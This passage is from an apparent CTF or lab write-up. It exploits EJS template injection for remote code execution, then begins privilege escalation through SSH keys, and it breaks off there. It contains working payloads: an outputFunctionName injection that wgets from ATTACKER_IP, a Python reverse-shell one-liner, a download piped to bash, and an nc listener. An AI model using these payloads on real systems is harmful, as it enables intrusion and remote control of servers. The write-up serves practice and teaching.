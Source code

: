 Searching online i found that EJS had some template injection -> RCE vulns, the one that worked here was appending this new parameter:
```bash
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('wget http://ATTACKER_IP:8000/test.ejs');s
```

Before sending the request have a python server ready:
```bash
python3 -m http.server
```

This worked, i got the attempted connection in the logs.

I tried to pass some payloads for a reverse shell but none seemed to work, so i opted for creating a reverse shell on the machine and retrieving that :
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Send this
```js
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('wget http://ATTACKER_IP:8000/shell | bash');s
```

Before sending it be sure to have a listener ready:
```bash
nc -lvnp 1234
```

Now send it, you should receive a shell as the user "web".

We can finally get the first flag in the user home directory:
```bash
cat /home/web/user.txt
```

--> REDACTED

<br/>

### Privilege Escalation
For a more stable connection let's add our SSH key.
Generate them:
```bash
ssh-keygen -t rsa -b 4096 -C "
```

Now you can copy your public key to the current working directory:
```bash
cp ~/.ssh/id_rsa.pub .
```

Start a python server:
```bash
python3 -m http.server
```
